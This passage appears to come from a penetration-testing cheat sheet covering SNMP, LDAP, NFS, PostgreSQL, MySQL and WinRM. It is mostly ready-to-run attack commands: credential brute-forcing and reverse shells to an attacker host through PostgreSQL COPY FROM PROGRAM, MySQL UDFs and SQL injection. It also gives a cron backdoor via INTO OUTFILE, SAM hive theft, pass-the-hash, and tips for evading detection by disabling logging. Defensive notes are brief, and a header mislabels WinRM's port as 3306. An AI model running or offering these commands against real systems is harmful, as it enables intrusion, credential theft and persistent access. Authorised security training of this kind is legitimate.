Provides a human-readable summary of SNMP results.

6. Braa (High-speed SNMP scanner)
bash

       braa public@<target-ip>:.1.3.6.*
Mass SNMP scanning tool, lightweight, does not rely on Net-SNMP libs.

🧨 Exploitation & Brute Force
7. Metasploit - snmp_enum
bash

    use auxiliary/scanner/snmp/snmp_enum
    set RHOSTS <target-ip>
    set community public
    run
8. Hydra
bash

       hydra -P pass.txt <target-ip> snmp
-P: Password list (community strings)

9. Metasploit - snmp_login
bash

       use auxiliary/scanner/snmp/snmp_login
       set RHOSTS <target-ip>
       set PASS_FILE pass.txt
       run
10. Medusa
bash

        medusa -h <target-ip> -P pass.txt -M snmp
11. Patator
bash

        patator SNMP_login host=<target-ip> community=FILE0 0=pass.txt
12. Nmap NSE Script
bash

        nmap -sU -p 161 <target-ip> --script snmp-brute --script-args snmp-brute.communitiesdb=pass.txt
13. Onesixtyone
bash

        onesixtyone -c pass.txt <target-ip>
Simple and efficient brute-force tool.

🧾 Useful Resources
Common SNMP Community Strings Wordlist:
fuzzdb SNMP wordlist[https://raw.githubusercontent.com/fuzzdb-project/fuzzdb/master/wordlists-misc/wordlist-common-snmp-community-strings.txt]

Extended MIB Enumeration:
Explore additional SNMP fields via extended MIBs
NET-SNMP-EXTEND-MIB[https://circitor.fr/]

🛠️ Tips for Red Teamers & Pentesters
SNMP Read-Only (RO) can leak:

Usernames and services

System details

Running processes

Network interfaces

Potential credentials (sometimes encoded or plaintext)

SNMP Read-Write (RW) access is highly critical:

Can change configurations

Reboot devices

Inject malicious configuration (e.g., redirect logs, change SNMP traps)

Use snmp-check and braa for fast reconnaissance, then deep dive with snmpwalk or Metasploit.

SNMP often reveals network topology and firewall rules via MIBs.
https://hacktricks.boitatech.com.br/pentesting/pentesting-snmp/snmp-rce

</details>

<details>
<summary>10.📚 LDAP (Lightweight Directory Access Protocol)389,636</summary>
 <br>
LDAP is a protocol used to access and maintain directory information. It is commonly used for managing user information and authentication.

**Enumerating LDAP:**

```bash

ldapsearch -x -H ldap://<IP> -b "dc=example,dc=com"
ldapsearch -x -H ldap://<IP>:<port> # try on both ldap and ldaps, this is first command to run if you dont have any valid credentials.

ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
#CN name describes the info we're collecting
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"

#windapsearch.py
#for computers
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --computers

#for groups
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --groups

#for users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --da

#for privileged users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --privileged-users

```

You can also enumerate users and gather information from LDAP directories.

**Using Metasploit for LDAP enumeration:**

```bash

msfconsole
use auxiliary/gather/ldap_query
set RHOSTS <IP>
set BASE "dc=example,dc=com"
run

```

</details>
<details>
<summary>11.📦 NFS (Network File System) port 2049</summary>
 <br>
NFS allows a system to share its files with other systems over a network. It enables the mounting of remote file systems and interaction with them as if they were local.

**Example Nmap command to scan for NFS services:**

```bash

nmap -p2049 -sV 192.168.188.131

```

If NFS is exposed publicly, it can be mounted to the local machine and files can be accessed.

**Mounting NFS share:**

```bash

sudo mount 192.168.188.131:/ /home/kali/Downloads/nfs -nolock

```

This allows you to access shared files from the remote NFS server.
![image](https://github.com/user-attachments/assets/34ad4003-778a-4011-b5ee-1c63e17adf4a)

**Troubleshooting NFS Mount Permission Issues:**

If you encounter **Permission Denied**, ensure that you have the correct NFS version and permissions configured.
https://blog.christophetd.fr/write-up-vulnix/
**To use NFSv3 (if needed):**

```bash

sudo mount -t nfs -o vers=3 192.168.188.137:/home/vulnix /home/kali/Downloads/nfs/home/vulnix -nolock

```
Let’s take a closer look at the permissions. 
```bash
ls -ld vulnix
```
If only Particuler user or group have access to the Path:
create a user group:
```jsx
sudo groupadd --gid 2008 vulnix_group
sudo useradd --uid 2008 --groups vulnix_group vulnix
sudo -u vulnix ls -l vulnix
```

![image](https://github.com/user-attachments/assets/c5978efc-c909-48b1-8165-5705d484ef0a)


DEBUG

```jsx
id vulnix
```

Ensure it outputs:

```jsx
uid=2008(vulnix) gid=2008(vulnix_group) groups=2008(vulnix_group)
```

If the UID or GID is incorrect, you must delete and recreate the user with:

```jsx
sudo userdel vulnix
sudo groupdel vulnix_group
sudo groupadd --gid 2008 vulnix_group
sudo useradd --uid 2008 --gid 2008 --groups vulnix_group vulnix
```

Now, try accessing the directory as `vulnix_user`:
![image](https://github.com/user-attachments/assets/90546368-1291-4e7a-b7c9-52a148eef779)

</details>


<details>
<summary>12. PostgreSQL 5432</summary>
 <br>
 PostgreSQL, also known as Postgres, is an advanced open-source relational database used across major platforms (Linux, Windows, Mac). It ships by default with macOS and is often used in enterprise backends.

PostgreSQL includes powerful functionality such as user-defined functions, server-side programming, and even the ability to execute system commands — which, when misconfigured, becomes a privilege escalation or RCE vector.

🎯 Attack Goals
Gain remote shell access

Escalate privileges (via SYSTEM/root or postgres user)

Lateral movement within internal networks

🧪 Step-by-Step Exploitation
🔐 Step 1: Brute-force PostgreSQL Credentials (if creds not known)
bash

    hydra -L /usr/share/wordlists/metasploit/postgres_default_user.txt \ -P /usr/share/wordlists/metasploit/postgres_default_pass.txt \ <target-ip> postgres
👉 This attempts default user:pass combinations like postgres:postgres.

📥 Step 2: Log in with psql or Metasploit module
bash

    psql -h <target-ip> -U postgres -W
or via Metasploit:

bash

    use auxiliary/scanner/postgres/postgres_login
☠️ Step 3: Confirm Privileges (Key Requirement!)
This RCE works only if:

The user is superuser or

The user has pg_execute_server_program role

Check roles:

sql

    \du
Look for:

pgsql

    postgres | Superuser, Create role, Create DB, Replication, Bypass RLS
or:

sql

    SELECT usesuper, usename FROM pg_user;
💥 Step 4: Achieve Code Execution via COPY FROM PROGRAM
This PostgreSQL feature allows importing data from an OS command.

Example: Windows Reverse Shell (PowerShell)
sql

    CREATE TABLE cmd_out(data text);
    COPY cmd_out FROM PROGRAM 'powershell -EncodedCommand <Base64Payload>';
👉 Base64Payload is your reverse shell (msfvenom -p windows/x64/powershell_reverse_tcp)

Linux Example:
sql

    COPY cmd_out FROM PROGRAM '/bin/bash -c "bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1"';
🛠 Tools to generate shell payloads:

bash

    msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw
🛠️ Alternative Methods of Exploitation
1. User-Defined Functions (UDF) via Shared Object Libraries
Upload a malicious .so (Linux) or .dll (Windows) and load it using:

sql

    CREATE FUNCTION sys_exec(text) RETURNS int
    AS '/tmp/malicious.so', 'exec'
    LANGUAGE C STRICT;
    SELECT sys_exec('nc -e /bin/bash <attacker-ip> <port>');
Requires superuser privileges and shared_preload_libraries.

2. Writable Filesystem Abuse
Check writable paths:

sql

    COPY cmd_out TO '/tmp/test.txt';
If successful, you can:

Write malicious scripts
Drop cron jobs (Linux)
Schedule tasks (Windows)

3. SQL Injection in Web Applications
If PostgreSQL is the backend and the app is vulnerable to SQLi:

sql

    '; COPY cmd_out FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"' --
Useful if you don’t have creds but have SQLi in a web app.

🧼 Cleanup (Optional)
sql

    DROP TABLE cmd_out;
🔒 Detection & Mitigation
Defense Area	Recommendation
🔐 Privilege Restriction	Avoid granting pg_execute_server_program or superuser to non-admin users
🔍 Logging	Enable query logging: log_statement = 'all'
🛡️ Disable COPY PROGRAM	Use PostgreSQL --disable-copy-program or AppArmor/SELinux
📦 Application Security	Sanitize SQL inputs to prevent injection
🔑 Credential Hygiene	Avoid default credentials and enforce strong auth
🔁 Regular Audits	Monitor user roles (\du) and extensions (\dx)

📌 Summary
Stage	Command
Brute Force	hydra -L ... -P ... <ip> postgres
Check Privs	\du or SELECT usesuper FROM pg_user;
Reverse Shell	COPY ... FROM PROGRAM 'bash ...'
UDF Execution	CREATE FUNCTION ... with .so/.dll
SQLi RCE	Inject COPY command via vulnerable web app

📎 Reference
https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5
Greenwolf Security – PostgreSQL RCE via COPY

Metasploit Modules

exploit/multi/postgres/postgres_copy_from_program_cmd_exec

exploit/windows/postgres/postgres_payload
</details>
<details>
<summary>13. MYSQL Port 3306</summary>
 <br>
🔎 Step 1: Enumeration
Start with identifying whether port 3306 (default MySQL port) is open:

bash

    nmap -p3306 -sV -sC <target-ip>
Add aggressive scanning options for version detection and default script scans:

bash

    nmap -p3306 --script mysql* -sV <target-ip>
This will also try:

Default creds

Enumerate MySQL users

Check for anonymous access

🔑 Step 2: Brute Forcing MySQL Credentials
bash

    hydra -L users.txt -P pass.txt <ip> mysql
Alternatively, you can use medusa:

bash

    medusa -h <ip> -u root -P pass.txt -M mysql
Or use ncrack (especially good for fast brute-forcing):

bash

    ncrack -p 3306 -U users.txt -P pass.txt <ip>
🧠 Step 3: Manual Login (Once Valid Credentials Are Found)
bash

    mysql -h <ip> -u <user> -p
Once logged in, you can:

List databases: show databases;

Use a DB: use mysql;

Check users: select user, host, authentication_string from mysql.user;

⚡ Step 4: Exploitation via Metasploit
A. Run SQL Queries Directly
bash

    msfconsole -q
    use auxiliary/admin/mysql/mysql_sql
    set rhosts <target-ip>
    set username <user>
    set password <pass>
    set sql show databases;
    run
B. Dump Password Hashes
bash

    use auxiliary/scanner/mysql/mysql_hashdump
    set rhosts <target-ip>
    set username <user>
    set password <pass>
    run
C. Run Commands via UDF (User Defined Function) Injection (for RCE)
bash

    use exploit/windows/mysql/mysql_udf_payload
    set rhosts <target-ip>
    set username root
    set password toor
    set payload windows/meterpreter/reverse_tcp
    set lhost <attacker-ip>
    set lport 4444
    run
✅ This exploit creates a custom function using a shared library (.dll or .so) and then calls it through SQL to gain RCE.

🧪 Step 5: Manual RCE via User-Defined Functions (UDF)
If file_priv is granted, you can:

Upload a malicious .dll or .so UDF file.

Register it with SQL:

sql

    CREATE FUNCTION do_system RETURNS integer SONAME 'lib_mysqludf_sys.so';
    SELECT do_system('nc <attacker-ip> 4444 -e /bin/bash');
On Windows:

sql

    SELECT do_system('powershell -c <reverse_shell_payload>');
🪵 Step 6: Post Exploitation
Dump user tables:

sql

    select user, password from mysql.user;
Look for saved credentials or tokens in application databases

Exfiltrate configuration files, secrets, keys

🛡️ Detection & Mitigation
Disable root login from remote IPs (bind-address=127.0.0.1 in my.cnf)

Enforce strong passwords and remove default credentials

Regularly audit MySQL users and their privileges

Monitor for signs of brute-force (slow query logs, login failures)

Consider enabling TLS encryption for connections

Use MySQL roles to minimize privilege exposure

🔁 Alternatives Tools for MySQL Pentesting
Tool	Purpose
sqlmap	Exploit SQL injection vulnerabilities
mysql_enum (NSE Script)	MySQL database enumeration
DBPwAudit	Fast credential bruteforcer
mariadb-client	Compatible client for login and testing
Metasploit	Multiple auxiliary and exploit modules

🧷 Additional Notes
MySQL with misconfigured permissions (e.g., file_priv, secure_file_priv) allows file upload or command execution

Some versions allow writing to crontab via SELECT ... INTO OUTFILE if not locked down

sql

    SELECT '*/1 * * * * root nc <ip> 4444 -e /bin/bash' INTO OUTFILE '/etc/cron.d/mysqlbackdoor';

</details>

<details>
<summary>14. WinRM 3306</summary>
 <br>
📌 What is WinRM?
Windows Remote Management (WinRM) is Microsoft’s implementation of the WS-Management protocol based on SOAP. It allows remote management of Windows systems and is enabled by default in some environments.

Port 5985 → WinRM over HTTP (unencrypted unless message-level encryption is used)

Port 5986 → WinRM over HTTPS (encrypted)

🔎 Initial Enumeration
Check if WinRM is exposed:

bash

    nmap -p 5985,5986 -sV -Pn <target-ip> --script http-winrm*
Use nmap with WinRM-specific NSE scripts:

bash

    nmap -p5985 --script=winrm-auth <target-ip>
Or check manually using curl:

bash

    curl -s -X POST http://<ip>:5985/wsman
If the response contains wsman, the service is alive.

🧪 Metasploit Enumeration
Check for Supported Auth Methods:
bash

    msfconsole
    use auxiliary/scanner/winrm/winrm_auth_methods
    set RHOSTS <target-ip>
    run
🔐 Brute-Force WinRM Credentials
1. Metasploit Module
bash

       use auxiliary/scanner/winrm/winrm_login
       set RHOSTS <target-ip>
       set user_file users.txt
       set pass_file passwords.txt
       set DOMAIN WORKSTATION
       run
2. Password Spray with nxc (lightweight & fast):
bash

       nxc winrm <ip> -u users.txt -p passwords.txt
🧠 Remote Shell with Valid Credentials
1. evil-winrm (Preferred Tool)
bash

       evil-winrm -i <target-ip> -u <user> -p <password>
Supports:

Upload/download
Powershell scripting
Proxy support
Kerberos & pass-the-hash (see below)

2. Docker Evil-WinRM (for Linux users)
bash

       docker run -it --rm --name evil-winrm --entrypoint evil-winrm oscarakaelvis/evil-winrm -i <ip> -u <user> -p <password>
🧪 Alternative Shells
1. PowerShell Remoting (Linux to Windows)
Using PowerShell NTLM Docker:

bash

    docker run -it quickbreach/powershell-ntlm
    $creds = Get-Credential
    Enter-PSSession -ComputerName <ip> -Authentication Negotiate -Credential $creds
2. Ruby WinRM Shell Script
Download & configure this Ruby script:

bash

    wget https://raw.githubusercontent.com/Alamot/code-snippets/master/winrm/winrm_shell_with_upload.rb
    nano winrm_shell_with_upload.rb  # Set IP, creds
    ruby winrm_shell_with_upload.rb
3. Powershell Empire / Covenant
You can use tools like:

Empire

Covenant

PSSharp
To execute WinRM-based agents if lateral movement or persistent C2 is required.

🧯 Pass-the-Hash with Evil-WinRM
If you have an NTLM hash, use:

bash

    evil-winrm -i <target-ip> -u <user> -H <NTLM_hash>
Or use Impacket's wmiexec.py or psexec.py as alternatives.

🔁 Lateral Movement
If you compromise a user with WinRM access on other systems:

bash

    evil-winrm -i <target-2> -u compromised_user -p password
Or use built-in PS remoting:

powershell

    Invoke-Command -ComputerName target2 -ScriptBlock { whoami } -Credential (Get-Credential)
📤 Post Exploitation with Evil-WinRM
bash

    upload <local-file> C:\Users\Public\payload.exe
    download C:\Windows\System32\config\SAM
    scripts
Built-in modules:

BloodHound
PowerView
SharpHound
PowerUp

🕵️ Detection Evasion Tips
Avoid brute-force from same IP: use --proxy or TOR routing

Disable PowerShell logging where possible

Modify Evil-WinRM user-agent string if using HTTPS

Consider using Kerberos authentication to reduce logs (with --auth kerberos)

🛡️ Defensive Notes / Mitigations
Disable WinRM if not needed:

powershell

    Disable-PSRemoting -Force
Use HTTPS + Cert-based Auth if enabled

Enable logging (Microsoft-Windows-WinRM/Operational)

Use GPO to restrict which users can access via WinRM

Monitor for new evil-winrm.exe or PS remoting activity

Limit "Remote Management Users" group

🧰 Related Tools Summary
Tool	Use
evil-winrm	Remote PS shell
nxc	Fast password spray
crackmapexec	SMB/WinRM enumeration
PSRemoting	Native method
Impacket	Pass-the-hash over WinRM (via SMB/WMI/PSEXEC)
wmiexec.py	WMI exec using hashes
pywinrm	Python-based WinRM library
Metasploit	Brute-force, auth check

</details>

